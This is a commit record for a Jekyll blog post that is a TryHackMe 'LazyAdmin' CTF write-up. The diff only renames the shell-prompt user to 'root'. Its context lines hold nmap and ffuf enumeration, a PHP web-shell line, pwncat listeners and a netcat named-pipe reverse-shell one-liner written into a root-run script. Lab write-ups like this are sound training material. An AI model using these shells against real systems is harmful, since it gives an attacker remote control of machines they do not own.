

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-09-23-lazyadmin-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 3757 px. Shown: the top 926 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-09-23-lazyadmin-writeup.md

````diff
--- a/_posts/2020-09-23-lazyadmin-writeup.md
+++ b/_posts/2020-09-23-lazyadmin-writeup.md
@@ -28,7 +28,7 @@ rights for thats so putting reverse shell we will get root.
 ### Enumeration
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
+┌─[root@parrot]─[~/Desktop/lazyadmin]
 └──╼ $nmap -sC -sV -oA nmap/lazy 10.10.232.150
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 03:48 IST
 Nmap scan report for 10.10.232.150
@@ -57,7 +57,7 @@ So we can see few links after the Webpage loaded.
 Moving on to dirbust.
 
 ```bash
-┌─[✗]─[argenestel@parrot]─[~/Desktop/lazyadmin]
+┌─[✗]─[root@parrot]─[~/Desktop/lazyadmin]
 └──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/FUZZ
 
         /'___\  /'___\           /'___\
@@ -89,7 +89,7 @@ server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
 Dirbusting content again.
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
+┌─[root@parrot]─[~/Desktop/lazyadmin]
 └──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/content/FUZZ
 
         /'___\  /'___\           /'___\
@@ -174,7 +174,7 @@ system($_GET['cmd']);
 let's get a reverse shell
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
+┌─[root@parrot]─[~/Desktop/tryhackme/lazyadmin]
 └──╼ $pwncat --listen --port 4444
 [11:07:07] received connection from 10.10.182.220:46374                                                                connect.py:148
 [11:07:08] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                                            victim.py:325
@@ -199,7 +199,7 @@ www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
 -rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
 www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.108.114 4443 >/tmp/f" > /etc/copy.sh
 
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
+┌─[root@parrot]─[~/Desktop/tryhackme/lazyadmin]
 └──╼ $pwncat --listen --port 4443
 [11:36:23] received connection from 10.10.182.220:42902                                          connect.py:148
 [11:36:26] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                      victim.py:325
````
